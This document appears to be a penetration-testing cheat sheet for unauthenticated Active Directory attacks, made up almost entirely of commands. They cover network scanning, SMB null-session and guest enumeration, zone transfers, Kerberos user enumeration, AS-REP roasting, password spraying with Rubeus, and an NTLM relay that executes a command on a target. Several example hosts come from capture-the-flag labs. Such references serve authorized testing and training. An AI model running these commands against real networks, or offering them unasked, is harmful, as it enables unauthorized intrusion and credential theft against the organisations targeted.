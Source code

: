 # No Credentials

## No Credentials

## Network Scanning

### Scan Network

```
nmap -sP -p -Pn <ip>
nmap -Pn -sV --top-ports 50 --open <ip>
nmap -Pn --script-smb-vuln -p139,445 <ip>
nmap -Pn -sC -sV -oN <OutPutFile> <ip>
nmap -Pn -sC -sV -p- -oN <OutPutFile> <ip>
nmap -Pn -sU -sC -sV -oN <OutPutFile> <ip>
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
```

### SNMP Check

```
snmp-check 10.10.31.2 -c openview
```

### CME

<pre><code><strong>#Map Hosts
</strong><strong>cme smb 192.168.1.0/24
</strong><strong>
</strong><strong>#Map SMB hosts that DO NOT require signing
</strong>cme smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt

#Enumerate Null Sessions
cme smb 10.10.10.161 -u '' -p ''
cme smb 10.10.10.161 --pass-pol
cme smb 10.10.10.161 --users
cme smb 10.10.10.161 --groups

#Enumerate Anonymous Login
cme smb 10.10.10.178 -u 'a' -p ''

#Extract Subnet
cme ldap &#x3C;ip> -u &#x3C;user> -p &#x3C;pass> -M get-network
cme ldap &#x3C;ip> -u &#x3C;user> -p &#x3C;pass> -M get-network -o ONLY_HOSTS=true
cme ldap &#x3C;ip> -u &#x3C;user> -p &#x3C;pass> -M get-network -o ALL=true
</code></pre>

### GoBuster

```
gobuster dns -d domain.local -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt
```

### Find DC IP

```
nmcli dev show eth0 #Shows domain names and DNS
nslookup -type=SRV_ldap_tcp.dc_msdcs <domain>
```

### Zone Transfer

```
dig axfr @10.10.10.192 blackfield.local
dig @10.10.10.192 ForestDnsZones.BLACKFIELD.local
```

### LDAP Search

```
ldapsearch -H 10.10.10.192 -x -s base namingcontexts
```

### wfuzz vhost discovery

```
sudo wfuzz -c -f subdomains.txt -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hl 154
```

### List Guest Access on SMB Share

```
enum4linux -a -u "" -p "" <dc-ip>
enum4linux -a -u "guest" -p "" <dc-ip>

smbmap -u "" -p "" -P 445 -H <dc-ip>
smbmap -u "guest" -p "" -P 445 -H <dc-ip>

smbclient -U "%" -L //<dc-ip>
smbclient -U "guest%" -L //<dc-ip>

cme smb <ip> -u "" -p ""
cme smb <ip> -u "a" -p ""
```

## Enumerate Users

### CME

<pre><code><strong>#Check for anon login
</strong><strong>cme smb domain.local  -u '' -p '' --users
</strong>cme smb domain.local  -u '' -p '' --users | awk '{print $4}' | uniq

#Check for users/groups and active sessions
cme smb 10.10.10.10 --users
cme smb 10.10.10.10 --groups 
cme smb 10.10.10.10 --groups --loggedon-users 

#Check if account exists without kerberos
cme ldap 192.168.1.0/24 -u users.txt -p '' -k

#Check for ASREPRoastable
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
</code></pre>

### Kerbrute

```
kerbrute userenum -d test.local usernames.txt
```

### Impacket

```
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.192 blackfield.local/
GetNPUsers.py -no-pass -usersfile names.txt -format hashcat -dc-ip 10.10.10.169 MEGABANK.LOCAL/
```

### NMAP

```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
```

### MetaSploit

```
msf> use auxiliary/gather/kerberos_enumusers
msf> use auxiliary/scanner/smb/smb_lookupsid
```

### SMBmap

```
python3 smbmap.py --host-file smb-hosts.txt -d test.local -L
```

### Rubeus

```
Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.local /outfile:found_passwords.txt
```

### NTLMRelay

```
python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
```

